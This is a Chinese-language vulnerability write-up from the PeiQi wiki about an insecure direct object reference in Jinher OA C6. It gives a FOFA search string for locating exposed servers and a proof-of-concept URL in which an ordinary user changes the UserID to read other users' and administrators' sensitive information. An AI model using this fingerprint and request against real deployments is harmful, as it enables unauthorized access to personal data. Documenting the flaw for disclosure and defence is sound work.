 ```yaml
---
title: 金和OA C6 后台越权信息泄露漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - OA产品漏洞
 - 金和OA
---
```


# 金和OA C6 越权信息泄露漏洞

## 漏洞描述

金和OA C6 存在越权信息泄露漏洞，普通用户登录后可以通过遍历ID编号获取管理员及其他用户的敏感信息

## 漏洞影响

> [!NOTE]
>
> 金和OA C6

## FOFA

> [!NOTE]
>
> app="Jinher-OA"

## 漏洞复现

使用普通用户登录 OA应用后台

访问的POC为

```
http://xxx.xxx.xxx.xxx/C6/JHSoft.Web.Dossier/DossierBaseInfoView.aspx?CollID=1&UserID=RY120330
```

> [!NOTE]
>
> 注意 RY120330 需要为确定的其他的用户编号

![](/img/20210924015413406341.png)

泄露了部分的敏感信息

## 参考文章

https://mp.weixin.qq.com/s/gwHQVIZeMWfT8a5lBX_4WA